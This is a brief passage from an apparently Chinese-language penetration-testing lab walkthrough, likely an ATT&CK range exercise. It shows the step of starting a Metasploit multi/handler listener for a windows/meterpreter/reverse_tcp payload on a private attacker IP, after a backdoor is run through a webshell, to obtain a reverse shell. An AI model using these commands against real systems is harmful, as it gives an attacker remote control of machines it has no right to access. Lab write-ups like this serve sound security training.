    ![tq1.png](img/ATT&CK/ATT&CK1/tq/1.png)

2. msf开启监听，webshell中运行后门程序，成功获取反弹shell
   
   ```powershell
   use multi/handler
   set payload windows/meterpreter/reverse_tcp
   set lhost 192.168.2.133  #攻击机器的ip，要接受反弹shell的ip地址
   set lport 4444
   run
   ```
   
   ![tq2.png](img/ATT&CK/ATT&CK1/tq/2.png)
   